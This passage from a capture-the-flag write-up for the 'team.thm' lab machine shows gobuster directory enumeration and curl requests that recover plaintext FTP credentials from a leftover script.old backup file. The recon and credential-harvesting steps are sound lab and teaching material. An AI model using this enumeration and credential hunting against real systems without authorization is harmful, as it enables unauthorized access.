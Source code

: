 ## team.thm
Ran gobuster on earlier found directory `/scripts` found a file name script.txt
```console
❯ gobuster dir --url http://team.thm/scripts   -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,js,txt | tee gobuster1.log
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://team.thm/scripts
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,js,txt
[+] Timeout:                 10s
===============================================================
2022/10/11 10:13:36 Starting gobuster in directory enumeration mode
===============================================================
/script.txt           (Status: 200) [Size: 597]
```

In `script.txt` found username and password but it was REDACTED by the owner. But it also has mentioned that the username and password in the .old file.
```console
❯ curl http://team.thm/scripts/script.txt
#!/bin/bash
read -p "Enter Username: " REDACTED
read -sp "Enter Username Password: " REDACTED
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

# Updated version of the script
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
```

Then Checked for `script.old` and found the credentials for ftp.
```console
❯ curl http://team.thm/scripts/script.old
#!/bin/bash
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
```